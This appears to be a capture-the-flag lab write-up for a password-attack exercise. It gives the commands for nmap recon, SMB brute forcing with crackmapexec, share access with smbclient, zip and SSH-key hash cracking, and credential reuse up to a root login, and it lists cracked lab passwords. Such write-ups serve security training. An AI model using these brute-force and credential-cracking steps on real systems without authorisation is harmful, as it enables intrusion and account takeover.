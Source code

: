 # Password Attack Lab - Medium

Examine the second target and submit the contents of flag.txt in /root/ as the answer.

- conducting preliminary recon on the target `nmap -Pn -sV --script=banner 10.129.x.x`
- Discovered services ssh, smb
- Initiating brute force attack on smb service using resources provided

`crackmapexec smb 10.129.x.x -L user.list -P password.list`
Result - john:123456

- Using john to enumerate the smb drive. Discovered usable drive SHAREDRIVE. using `smbclient -L //10.129.x.x/ -U john%123456`
- Further inspection using `smbclient //10.129.x.x/SHAREDRIVE -U john%123456`
- discovered a zip file `Docs.zip`. Downloading the file.
- Upon interaction with the file discovered that the file is encrypted.
- Extracting of the hash using `zip2john Docs.zip > doc.hash`
- Conducting brute force on the hash using resources. Password cracked `Destiny2022!`
- Extracting and cracking the hash for the document extracted. Discovery of pass `987654321`
- Discovered services mysql with credentials `jason:C4mNKjAtL2dydsYa6`
- Connection success to target using ssh using credentials `jason:C4mNKjAtL2dydsYa6`
- Connection success to mysql client on target.
- Discovered table cred under users database
- Discovered credentials for `dennis:7AUgWWQEiMPdqx`
- Conducting Lateral Movement in the host using the credentials `dennis:7AUgWWQEiMPdqx`
- Checking bash history. Discovered creation of ssh keys
- checking .ssh directory.
- Downloaded id_rsa
- Extracting and cracking the id_rsa hash discovered pass `P@ssw0rd12020!`
- using the discovered creds to log into the victim machine as root. Result successfull
